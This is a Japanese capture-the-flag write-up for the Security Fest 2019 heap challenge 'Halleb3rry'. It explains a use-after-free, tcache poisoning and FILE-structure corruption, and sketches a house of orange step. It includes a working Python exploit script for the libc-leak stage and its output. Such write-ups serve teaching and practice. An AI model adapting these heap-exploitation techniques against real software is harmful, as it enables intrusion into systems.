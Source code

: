 # [pwn 1003pts] Halleb3rry - Security Fest 2019
64ビットでPIE以外は有効です。
```
$ checksec -f pwn
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      Yes	0		3	pwn
```
ヒープ問です。
最初にスタック変数に名前を入力した後、alloc array, edit array, delete array, print nameができます。
順番に処理を見ていきましょう。

`alloc_array`では0から0x80までのサイズを指定でき、そのサイズだけmallocされます。
ポインタはグローバル変数arrayに入れられます。
このサイズ取得に使った変数をなぜかmemsetで空にし、その後指定したサイズだけarrayに入力できます。
このとき`array`がNULLかを確認する処理はありません。
`edit_array`では1以上のインデックスを指定すると、`array[i]`に数字を入れられます。
このときサイズチェックをしないので好きな場所を書き換えられます。
`delete_array`ではarrayがNULLでなければ`free(array)`します。
このとき`array = NULL`はしていないので、UAFがあります。
メモリリークはどこ...？

この手の問題ではFILE構造体を使えってばっちゃが言ってた。
stdout/stderrは出力バッファを示すポインタ(`_IO_write_ptr`)を持ってるのでそれを書き換えてやれば任意のアドレスのデータを出力させられます。
そしてbssセクションにはstdout/stderrへのポインタが格納されているので、tcache poisoningでここへポインタを向けてやればstderr本体へ書き込めることになります。

```
pwndbg> x/xg &stderr
0x602040 <stderr>:	0x00007ffff7dd0680
pwndbg> x/32xg 0x00007ffff7dd0680
0x7ffff7dd0680 <_IO_2_1_stderr_>:	0x00000000fbad2887	0x00007ffff7dd0703
0x7ffff7dd0690 <_IO_2_1_stderr_+16>:	0x00007ffff7dd0703	0x00007ffff7dd0703
0x7ffff7dd06a0 <_IO_2_1_stderr_+32>:	0x00007ffff7dd0703	0x00007ffff7dd0703
0x7ffff7dd06b0 <_IO_2_1_stderr_+48>:	0x00007ffff7dd0703	0x00007ffff7dd0703
0x7ffff7dd06c0 <_IO_2_1_stderr_+64>:	0x00007ffff7dd0704	0x0000000000000000
0x7ffff7dd06d0 <_IO_2_1_stderr_+80>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd06e0 <_IO_2_1_stderr_+96>:	0x0000000000000000	0x00007ffff7dd0760
0x7ffff7dd06f0 <_IO_2_1_stderr_+112>:	0x0000000000000002	0xffffffffffffffff
0x7ffff7dd0700 <_IO_2_1_stderr_+128>:	0x0000000000000000	0x00007ffff7dd18b0
0x7ffff7dd0710 <_IO_2_1_stderr_+144>:	0xffffffffffffffff	0x0000000000000000
0x7ffff7dd0720 <_IO_2_1_stderr_+160>:	0x00007ffff7dcf780	0x0000000000000000
0x7ffff7dd0730 <_IO_2_1_stderr_+176>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd0740 <_IO_2_1_stderr_+192>:	0x00000000ffffffff	0x0000000000000000
0x7ffff7dd0750 <_IO_2_1_stderr_+208>:	0x0000000000000000	0x00007ffff7dcc2a0
0x7ffff7dd0760 <_IO_2_1_stdout_>:	0x00000000fbad2a84	0x0000000000603260
0x7ffff7dd0770 <_IO_2_1_stdout_+16>:	0x0000000000603260	0x0000000000603260
```

ここで見えているのは_IO_FILE構造体で、次のように定義されます。
```c
struct _IO_FILE {
int _flags; /* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags
/* The following pointers correspond to the C++ streambuf protocol. */
/* Note: Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
char* _IO_read_ptr; /* Current read pointer */
char* _IO_read_end; /* End of get area. */
char* _IO_read_base; /* Start of putback+get area. */
char* _IO_write_base; /* Start of put area. */
char* _IO_write_ptr; /* Current put pointer. */
char* _IO_write_end; /* End of put area. */
char* _IO_buf_base; /* Start of reserve area. */
char* _IO_buf_end; /* End of reserve area. */
/* The following fields are used to support backing up and undo. */
char *_IO_save_base; /* Pointer to start of non-current get area. */
char *_IO_backup_base; /* Pointer to first valid character of backup area */
char *_IO_save_end; /* Pointer to end of non-current get area. */
struct _IO_marker *_markers;
struct _IO_FILE *_chain;
int _fileno;
int _blksize;
_IO_off_t _old_offset; /* This used to be _offset but it’s too small. */ 
```

この`_IO_write_base`と`_IO_write_ptr`の間にあるデータが出力されます。
ちなみに今回はstderrを使ってくれているのでこっちからstdoutを変更します。（ポインタを消してしまうので。）
要するに、double freeした後にchunkの先頭にstderrを書き込めば
```
tcache --> chunk --> stderr --> _IO_2_1_stderr_
```
という状況になるので、allocしまくれば`_IO_2_1_stderr_`に到達します。
次にstdoutが出力するptr周辺にlibcのアドレスがあるかという話です。
このポインタはヒープ上にあるので単純にヒープの最初の方にlibcのアドレスを置いておけばOKです。
残念ながらサイズが0x80までしか指定できないのでそのままではunsorted binは使えません。
したがって、今回はヒープオーバーフローを使ってchunk sizeを書き換え、無理やりunsorted binに繋げます。

```python
from ptrlib import *

def alloc(size, data):
    sock.recvuntil("> ")
    sock.sendline("1")
    sock.recvuntil("size: ")
    sock.sendline(str(size))
    sock.recvuntil("data: ")
    sock.send(data)

def edit(index, byte):
    sock.recvuntil("> ")
    sock.sendline("2")
    sock.recvuntil("index: ")
    sock.sendline(str(index))
    sock.recvuntil("byte: ")
    sock.send(str(byte))

def delete():
    sock.recvuntil("> ")
    sock.sendline("3")

def print_name():
    sock.recvuntil("> ")
    sock.sendline("4")
    sock.recvuntil("pwner: ")
    return sock.recvline().rstrip()

libc = ELF("./libc.so.6")
elf = ELF("./pwn")
sock = Process("./pwn")
main_arena = 0x3ebc40
delta = 1168

# Name
sock.recvuntil("name: ")
sock.sendline("taro")

## Chunk overlap
alloc(0x18, "B" * 0x18)
delete() # push to tcache
alloc(0x28, "A" * 0x28)
delete()
alloc(0x18, "B" * 0x18)
edit(0x18, 0x01) # 0x31 --> 0x01
edit(0x19, 0x05) # 0x01 --> 0x501
edit(0x18 + 0x500, 0x31) # fake chunk size
edit(0x18 + 0x500 + 0x30, 0x31)
alloc(0x28, "A" * 0x18)
delete() # pon!

## TCache Poisoning to leak libc
alloc(0x68, "CCCC")
delete()
delete()
alloc(0x68, p64(elf.symbol("stderr")))
alloc(0x68, "Hello")
alloc(0x68, "X" * 8) # stderr
alloc(0x68, p64(0xfbad2a84)) # _IO_2_1_stderr_
# change 0x603260 --> 0x60f260
edit(0x109, 0xf2)

while True:
    r = sock.recv().replace(b"\x00", b"")
    if b'\x7f' in r:
        break
addr_main_arena = u64(r[r.index(b"Hello") + 5: r.index(b"Hello") + 5 + 6])
libc_base = addr_main_arena - main_arena - delta
dump("libc base = " + hex(libc_base))
```
やっほい。
```
$ python solve.py 
[+] Process: Successfully created new process (PID=19676)
[ptrlib] libc base = 0x7f04bbefe000
```

後はdouble freeするだけ！と思ったのですが、なぜか上手くいきません。
よくコードを読んでみると、なんとfreeは5回までしか使えないのです。
なんでこういうことするかなぁ。

参考文献[1]によると、ここでhouse of orangeという技法を使います。
house of ...系は名前だけ聞いたことはありましたが、こういうのに使うんだ。

ざっと調べたのでやってみましょう。
libc leak終了後のtop_chunkの様子は次のようになっています。

```
pwndbg> top_chunk 
0xd6c2b0 PREV_INUSE {
  mchunk_prev_size = 18367622009667905, 
  mchunk_size = 130385, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```
今0xd6c2b0なので0x20000でアラインしてold_endを0xd80000にする必要があります。
そのためにはサイズ0x80のチャンクを634回確保して、top_chunkのアドレスを0xd7ffb0にした後、editでsizeを0x51に変更してやればOKです。



# 感想
これ1つでめちゃくちゃ勉強になりました。

# 参考文献
[1] [https://kileak.github.io/ctf/2019/secfest-halleb3rry/](https://kileak.github.io/ctf/2019/secfest-halleb3rry/)
[2] [http://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html](http://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html)